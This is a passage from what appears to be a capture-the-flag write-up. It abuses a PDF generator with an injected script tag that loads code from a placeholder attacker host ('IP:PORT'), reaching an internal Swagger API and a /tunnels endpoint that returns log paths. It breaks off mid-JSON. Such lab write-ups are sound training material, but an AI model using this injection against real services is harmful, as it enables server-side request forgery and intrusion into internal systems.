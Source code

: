 ```javascript
<script src="http://IP:PORT/index.js"></script>
```

Redirecting the PDF generation to `tunnel.neohub.htb` revealed a Swagger API interface. This API documentation provides a structured overview of the available endpoints and their functionalities, allowing us to explore further interactions with the system.

![img](assets/swag.png)

Let's change our focus and redirect to the `/tunnels` endpoint to see what additional information we get.

```json
[
  {
    "id": 1,
    "name": "Main Tunnel",
    "details": {
      "location": "Sector 5",
      "status": "Operational",
      "safetyFeatures": {
        "emergencyExits": 3,
        "fireExtinguishers": 10
      }
    },
    "log_path": "./logs/5fa41a58-80f2-4d04-86dd-1a8ac3ea452d.log"
  },
  {
    "id": 2,
    "name": "Service Tunnel",
    "details": {
      "location": "Sector 7",
      "status": "Maintenance",
      "safetyFeatures": {
        "emergencyExits": 1,
        "fireExtinguishers": 4
      }
    },
    "log_path": "./logs/b6afc850-c6af-4578-9998-c2bb22302c92.log"
  },
  {
    "id": 3,
```